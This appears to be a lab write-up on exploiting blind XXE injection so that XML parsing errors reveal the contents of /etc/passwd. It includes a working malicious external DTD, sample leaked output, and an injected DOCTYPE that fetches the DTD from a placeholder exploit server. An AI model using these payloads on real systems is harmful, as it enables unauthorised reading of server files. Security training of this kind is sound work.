



## Exploiting blind XXE to retrieve data via error messages

An alternative approach to exploiting blind XXE is to trigger an XML parsing error where the error message contains the sensitive data that you wish to retrieve. This will be effective if the application returns the resulting error message within its response.

You can trigger an XML parsing error message containing the contents of the `/etc/passwd` file using a malicious external DTD as follows:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM    'file:///nonexistent/%file;'>">
%eval;
%error;
```

This DTD carries out the following steps:

- Defines an XML parameter entity called `file`, containing the contents of the `/etc/passwd` file.
- Defines an XML parameter entity called `eval`, containing a dynamic declaration of another XML parameter entity called `error`. The `error` entity will be evaluated by loading a nonexistent file whose name contains the value of the `file` entity.
- Uses the `eval` entity, which causes the dynamic declaration of the `error` entity to be performed.
- Uses the `error` entity, so that its value is evaluated by attempting to load the nonexistent file, resulting in an error message containing the name of the nonexistent file, which is the contents of the `/etc/passwd` file.

Invoking the malicious external DTD will result in an error message like the following:

```
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

## Challenge

> This lab has a "Check stock" feature that parses XML input but does not display the result.
> To solve the lab, use an external DTD to trigger an error message that displays the contents of the `/etc/passwd` file.
> The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.

--> so first of all we have to make our malicious dtd file so let's goto `exploit server` and add this payload:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM    'file:///nonexistent/%file;'>">
%eval;
%error;
```

--> Also don't forget to change the `Content-type` to `application/xml-dtd` because we are passing xml data.

--> Now click on `store` and we have made our external dtd file and also i named it `exploit.dtd`



--> After that goto main application and click on any product and intercept the `check store` request and add the payload which will make request to our external dtd payload So i made this payload:

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "<exploit-server-url>/exploit.dtd"> %xxe;]>
```

So the final payload will look like this:



Now right click on request and select `Do intercept->response to this request` and forward the request. And you will see the content of `/etc/passwd` in response.



And we solved the lab!
